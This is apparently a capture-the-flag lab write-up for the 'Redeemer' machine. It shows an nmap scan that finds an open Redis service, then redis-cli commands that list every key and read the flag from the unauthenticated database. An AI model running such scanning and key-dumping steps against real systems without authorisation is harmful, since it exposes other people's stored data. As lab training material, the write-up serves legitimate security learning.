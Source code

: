 # Redeemer

- TL;DR: Connect to a redis server using the `redis-cli` and retrieve the flag.

## Reconnaissance

- Run an nmap scan:
```
nmap -p6379 -sV -oA nmap_scans/Redeemer 10.129.55.121
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 06:55 PDT
Nmap scan report for 10.129.55.121
Host is up (0.082s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```

<br>

## Exploitation

- We find the following port(s) open:
    - `tcp 6379` running the redis service
- `sudo apt install redis-tools` if the redis cli is not already installed on the system.
- Next we connect to the redis server with `redis-cli -h 10.129.136.187`
- Once connected, we run the `info` command to get information and statistics of the redis server,
- Keyspace section provides statistics on the main dictionary of each database. The statistics include the number of keys, and the number of keys with an expiration.
- In this case, only one database exists with the index `0`
- We select the database using the `select 0` command.
- We can list all the keys present in the database using the `keys *` command.
- Finally, we get the flag with the `get flag` command.
